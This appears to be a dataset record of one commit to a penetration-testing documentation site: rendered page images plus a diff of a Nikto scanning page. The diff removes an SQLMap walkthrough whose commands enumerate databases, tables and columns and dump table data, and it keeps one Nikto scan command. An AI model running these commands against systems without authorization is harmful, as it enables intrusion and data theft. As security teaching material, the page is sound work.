

Before and after one commit to tymyrddin/red-enum, a Sphinx documentation site: the page built from source/docs/vulns/nikto.md, in a window 1280 px wide and 1180 px high. Shown: the whole window at 89% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Initial commit

```diff
--- a/source/docs/vulns/nikto.md
+++ b/source/docs/vulns/nikto.md
@@ -1,34 +1,10 @@
 # Scanning a webserver with Nikto
 
 
-## Examples
-
-### Nikto
+## Example
 
     nikto -h [IP address] -p 80 -o nikto_scan -F txt
-
-### SQLMap
-
-Identify a page in the target web application that displays data and note the URL. Use in sqlmap:
-
-    sqlmap -u http://urloftargetpage/page.php?id=2 --dbs
-
-If SQL injections are successful, the `--dbs` parameter gives information about the database, such as the
-type of database and the database name.
-
-Then try to retrieve the list of tables from the database:
-
-    sqlmap -u http://urloftargetpage/page.php?id=2 -D databasename --tables
-
-With a list of the table names, get information such as the columns that exist in a table:
-
-    sqlmap -u http://urloftargetpage/page.php?id=2 -D databasename -T tablename --columns
-
-Dump the data stored in a table:
-
-    sqlmap -u http://urloftargetpage/page.php?id=2 -D databasename -T tablename --dump
 
 ## Tools
 
 * [Nikto](https://www.kali.org/tools/nikto/)
-* [SQLMap](https://www.kali.org/tools/sqlmap/)
```
